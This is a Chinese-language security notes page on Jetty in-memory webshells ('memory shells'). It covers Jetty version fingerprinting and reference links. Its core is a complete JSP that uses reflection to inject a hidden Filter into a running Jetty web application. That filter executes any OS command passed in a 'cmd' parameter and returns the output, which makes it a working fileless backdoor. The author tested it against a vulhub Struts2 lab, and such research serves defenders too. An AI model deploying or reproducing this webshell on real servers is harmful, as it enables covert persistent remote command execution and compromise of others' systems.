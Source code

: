 # Jetty内存马

Eclipse Jetty 是一个轻量级、高度可扩展、基于 Java 的 Web 服务器和 Servlet 引擎。Jetty 的目标是以高容量、低延迟的方式支持 Web 协议（HTTP/1、HTTP/2、HTTP/3、WebSocket 等），从而提供最高性能，同时保持易用性和与多年 Servlet 开发的兼容性。

Jetty 是一种现代的完全异步 Web 服务器，作为面向组件的技术有着悠久的历史，可以轻松嵌入到应用程序中，同时仍然为 Web 应用程序部署提供可靠的传统发行版。

---

## 基本信息收集

### 查看版本号

- Web侧的话

  - 响应标头中可能会有 Jetty 版本信息, 例如:

    ![image-20240918162938756](http://cdn.ayusummer233.top/DailyNotes/202409181629820.png)

  - Wappalyzer 应该也是用的上面这种方案获取的版本信息:

    ![image-20240918163003019](http://cdn.ayusummer233.top/DailyNotes/202409181630064.png)

- 主机侧的话

  - 可以在 JavaWeb 项目的 `pom.xml` 中看到 jetty 的版本号

    ![image-20240918162309589](http://cdn.ayusummer233.top/DailyNotes/202409181623686.png)

  - 直接 `find / | grep jetty` 也可能看到相应路径信息中显示的 jetty 版本信息:

    ![image-20240918162417425](http://cdn.ayusummer233.top/DailyNotes/202409181624482.png)

---

## 构造可用的 Servlet

Jetty 9.2.x 提供了更加安全且可维护的方式来处理 `Servlet` 的动态注册

可以通过 `ServletHandler` 和 `ServletHolder` 来动态注册 `Servlet`，并设置 URL 映射。这不再需要反射访问私有字段

> TODO: 搞不出来, 看了下 `web.xml` 里也没有配置 servlet mapping 之类的, 遂放弃

---

## 构造内存马

> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [3gstudent-Blog](https://3gstudent.github.io/)
>
> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)

---

## Filter内存马

> [从0到1学会Jetty内存马注入 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/15141?u_atoken=1f048c5fb527d82d5ec4ba4c07b4c57d&u_asig=0a472f8c17266484778997576e004d)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [Java利用技巧——Jetty Filter型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Filter型内存马)
>
> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)

环境: vulhub 的 s2-045 Docker, 其中 Jetty 版本为 9.2.11

---

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
                    out.println("Error: " + e.getMessage() + "<br>");
                }
            }     
        }
    }
%>
```

![image-20240920152529930](http://cdn.ayusummer233.top/DailyNotes/202409201525001.png)

![image-20240920145928096](http://cdn.ayusummer233.top/DailyNotes/202409201459280.png)

![image-20240920150008171](http://cdn.ayusummer233.top/DailyNotes/202409201500230.png)

---

## Servlet型内存马

> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)





---

## Customizer型内存马

> [一种在高版本JDK下 的新型嵌入式Jetty Customizer内存马实现 - 白帽酱の博客 (rce.moe)](https://rce.moe/2023/08/19/Jetty-Customize-memory-webshell/)



